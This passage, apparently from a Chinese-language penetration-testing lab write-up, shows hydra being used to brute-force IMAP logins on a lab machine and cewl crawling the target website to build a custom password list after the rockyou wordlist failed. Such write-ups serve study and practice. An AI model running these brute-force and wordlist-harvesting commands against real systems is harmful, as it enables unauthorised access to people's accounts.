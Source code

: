 ![image-20250310172347758](./PG_win.assets/image-20250310172347758.png)

使用hydra爆破

```
hydra -L ./users.txt -P ~/wordlists.txt 192.168.133.140 -s 143 imap
```

但是使用rockyou字典很久都没有结果，使用cewl工具爬取网站收集密码（4为深度

```
cewl -d 4 https://192.168.133.140 -w zidian.txt  
```

![image-20250310173000677](./PG_win.assets/image-20250310173000677.png)
